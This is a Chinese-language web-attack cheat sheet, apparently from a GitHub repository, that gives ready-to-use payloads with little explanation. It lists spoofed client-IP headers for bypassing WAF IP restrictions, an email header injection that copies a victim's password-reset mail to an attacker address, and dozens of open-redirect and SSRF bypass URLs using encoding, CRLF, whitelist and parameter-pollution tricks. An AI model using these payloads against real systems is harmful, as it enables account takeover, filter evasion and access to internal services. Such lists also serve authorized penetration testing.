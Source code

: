 ## 通过 IP 绕过 WAF 控制

```plain
X-Originating-IP:localhost
X-Forwarded-For:localhost
X-Remote-IP:localhost
X-Remote-Addr:localhost
X-Forwarded-Host:localhost
X-Client-IP:localhost
X-Remote-IP:localhost
X-Remote-Addr:localhost
X-Host:localhost
True-Client-Ip:localhost
```

## 忘记密码 - 利用电子邮件头注入

```plain
email="victim@mail.tld%0a%0dcc:attacker@mail.tld"
```

## 开放重定向/SSRF Payloads 生成器

```plain
#基本 Payloads：
https://google.com/redirect.php?redirect=https:/facebook.com
https://google.com/redirect.php?redirect=https://facebook.com
https://google.com/redirect.php?redirect=http:/\/\facebook.com
https://google.com/redirect.php?redirect=https:/\facebook.com
https://google.com/redirect.php?redirect=#facebook.com
https://google.com/redirect.php?redirect=#%20@facebook.com
https://google.com/redirect.php?redirect=/facebook.com

#URL 编码：
https://google.com/redirect.php?redirect=%2Ffacebook.com
https://google.com/redirect.php?redirect=%2F%2Ffacebook.com
https://google.com/redirect.php?redirect=https%3A%2F%2Ffacebook.com

#CRLF：
https://google.com/redirect.php?redirect=%0D%0A/facebook.com

#白名单域或关键字：
https://google.com/redirect.php?redirect=google.com.facebook.com
https://google.com/redirect.php?redirect=google.comfacebook.com

#“https:”绕过“：
https://google.com/redirect.php?redirect=https:facebook.com

#"\/" 绕过：
https://google.com/redirect.php?redirect=\/\/facebook.com/
https://google.com/redirect.php?redirect=/\/facebook.com/

#参数污染：
https://google.com/redirect.php?redirect=?next=google.com&next=facebook.com

#@ 绕过：
https://google.com/redirect.php?redirect=@facebook.com

#// 绕过：
https://google.com/redirect.php?redirect=//facebook.com
https://google.com/redirect.php?redirect=
https://google.com/redirect.php?redirect=

```
